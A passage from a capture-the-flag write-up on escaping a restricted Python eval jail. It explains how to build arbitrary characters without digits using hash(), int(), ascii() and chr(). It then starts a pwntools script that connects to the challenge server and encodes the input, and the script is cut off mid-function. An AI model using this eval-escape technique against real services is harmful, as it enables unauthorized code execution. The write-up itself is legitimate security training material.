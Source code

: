 ![image_of_challege_5](/assets/img/2024-02-19-my-approach-and-solutions-navigating-the-ebhadra-ctf-challenge/30.webp)


It appears that the system is attempting to evaluate our input if it’s accepted. Additionally, we’re unable to utilize numbers, which limits our use of chr() function. However, we still have access to the following functions:

  1. ascii
  2. chr
  3. hash
  4. int
  5. str

The hash function is interesting because it produces large integers when given function names as input. These integers represent the memory addresses of those functions.

Using hash(), we can obtain integers representing ‘1’ and ‘0’. We can then use these with int() to convert them into their respective ASCII code points. By utilizing chr(), we can convert these code points back into characters. This allows us to create unrestricted input for the second eval. Here’s the plan:

  1. Use int() with ‘1’ and ‘0’ to get ASCII code points in binary format.
  2. Convert these code points to characters using chr().
  3. Pass these characters as input to the next eval.

The script below demonstrates this process.
```python
from pwn import *

r = remote("20.235.243.131",13337)
r.recvuntil(b'>')

def lvl1(inp):
 word=""
 for i in inp:
  char = "ascii(int())"
  b = bin(ord(i))[2:]
  for bit in b:
   if bit == '1':
    char += '+ascii(hash(())//hash(()))'
   elif bit == '0':
    char += '+ascii(int())'
  word += f"chr(int({char},(hash(())//hash(())+hash(())//hash(()))))+"
```